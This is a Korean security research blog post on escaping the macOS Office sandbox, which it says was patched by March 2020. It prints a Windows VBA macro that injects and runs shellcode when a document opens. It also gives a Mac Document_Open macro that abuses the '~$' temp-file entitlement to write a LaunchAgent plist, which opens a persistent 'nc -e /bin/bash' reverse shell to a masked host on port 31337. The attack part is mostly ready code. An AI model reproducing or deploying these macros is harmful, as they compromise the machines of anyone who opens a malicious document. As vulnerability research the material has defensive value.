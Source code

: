 ```yaml
---
layout: post
title:  "MacOs에서 Office Sandbox Bypass"
author: "hkkiw0823"
comments: true
tags: [mac]
---
```


라온화이트햇 핵심연구팀 강인욱([hkkiw0823@gmail.com](mailto:hkkiw0823@gmail.com))


Office 공격이 유행함에 따라 최근 공격자들은 Windows 뿐만 아니라 MacOs까지 호환되도록 범위를 넓혔습니다. 해외에서는 MacOs를 사용하는 유저들이 더 많아서 Windows 만으로는 공격 성공률이 낮습니다. 하지만 지금까지 MacOs에서 Office 공격이 왜 발생하지 않았는지에 대해서 알아보도록 합니다.

* 이 문서에 기술된 시작프로그램 등록 방법은 현재 패치가 이루어져서 작동하지 않습니다.

일반적으로 Windows Macro는 아래와 같이 진행됩니다.

    
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
    Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long
    
    
    Sub Auto_Open()
            Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
    #If Vba7 Then
            Dim  Xlbufvetp As LongPtr
    #Else
            Dim  Xlbufvetp As Long
    #EndIf
            Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
    139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
    13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
    116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
    214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
    36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
    139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
    235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
    224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
    187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
            Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
            For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                    Wyzayxya = Hyeyhafxp(Zolde)
                    Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
            Next Zolde
            Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
    End Sub

excel.exe에 쉘코드를 삽입 후 CreateThread로 실행을 해주는 모습입니다.

Mac 에서는 아래와 같이 사용할 수 있습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Sub Document_Open()
       system("~~~~")
    End Sub

Mac에서는 더 간단한 것처럼 보이지만 Mac에는 기본적으로 Sandbox가 존재합니다.

Mac에서 아래와 같이 명령어를 입력하면 사용할 수 있는 권한이 나타납니다.

    codesign --display -v --entitlements - /Applications/Microsoft\ Word.app

    ...
    com.apple.security.files.bookmarks.app-scope
    com.apple.security.files.user-selected.read-write
    com.apple.security.network.client
    com.apple.security.personal-information.addressbook
    com.apple.security.print
    ...
    com.apple.security.temporary-exception.sbpl
    (allow file-read* file-write*
    (require-any
    (require-all (vnode-type REGULAR-FILE) (regex #"(^|/)~\$[^/]+$"))
    )
    )

Mac에서는 자체적으로 App마다 SandBox가 있어서 특정 행동을 하기 위해선 권한이 필요합니다. 아마 이 때문에 Mac에서 Office를 이용한 공격이 성행하지 않았던 것으로 보입니다.

위에 있는 Office 권한을 자세히 살펴보면 파일 읽기와 쓰기 권한을 사용할 때 특정 조건이 맞춰지면 사용할 수 있는 것처럼 보입니다.

    ~$xxxx.docx

어디서 많이 본 듯한 파일명입니다. Office의 경우 처음 문서를 열면 기본적으로 임시파일을 "~$파일명"에 생성합니다. 그렇기 때문에 Office를 실행할 때마다 권한 문제를 일으키지 않기 위해 정규식으로 허용해 둔 모습입니다.

이제 저 정규식을 가지고 Sandbox를 우회해봅니다.

MacOs에서는 아래와 같은 폴더에 plist파일을 등록하면 재부팅시 해당 바이너리를 실행하게 됩니다.

![/assets/3f1a9809-588d-4a26-af2c-de70b1c99b27/1548c49d-9949-4c30-81c6-13f126c3ac12launchd_dirs.png](/assets/3f1a9809-588d-4a26-af2c-de70b1c99b27/1548c49d-9949-4c30-81c6-13f126c3ac12launchd_dirs.png)

/System 이나 /Library 는 기본적으로 권한이 없어서 실제 공격시엔 유저 권한인 ~/Library를 이용해야 합니다.

~/Library/LauchAgents에 파일을 작성할 수 있다면 시작프로그램을 등록하여 재부팅할 때마다 악성프로그램이 동작하게 할 수 있습니다.

아래와 같이 plist파일을 작성하여 시작프로그램 폴더에 등록한다면 실제로 재부팅할 때마다 nc로 붙은 것을 확인할 수 있습니다.

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
    <dict>
    <key>Label</key>
    <string>com.xpnsec.escape</string>
    <key>ProgramArguments</key>
    <array>
    <string>python</string>
    <string>-c</string>
    <string>import os; os.system("nc -e /bin/bash xxxxxx 31337")</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    </dict>
    </plist>

최종적인 페이로드는 아래와 같습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Private Sub Document_Open()
    Dim path As String
    Dim payload As String
    payload = "import os; os.system(\"nc -e /bin/bash xxxxxx 31337\")"
    path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
    arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
    "<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
    "<plist version=""1.0"">\n" & _
    "<dict>\n" & _
    "<key>Label</key>\n" & _
    "<string>com.xpnsec.sandbox</string>\n" & _
    "<key>ProgramArguments</key>\n" & _
    "<array>\n" & _
    "<string>python</string>\n" & _
    "<string>-c</string>\n" & _
    "<string>" & payload & "</string>" & _
    "</array>\n" & _
    "<key>RunAtLoad</key>\n" & _
    "<true/>\n" & _
    "</dict>\n" & _
    "</plist>"
    Result = system("echo """ & arg & """ > '" & path & "'", "r”)
    End Sub

2020. 03 기준으로 해당 우회법은 MS Office 측에서 패치를 하여 더 이상 사용할 수 없습니다.

시작프로그램에 등록하는 것은 불가능하지만 문서를 열었을때 쉘을 획득하여 이것저것 할 수는 있어 보입니다.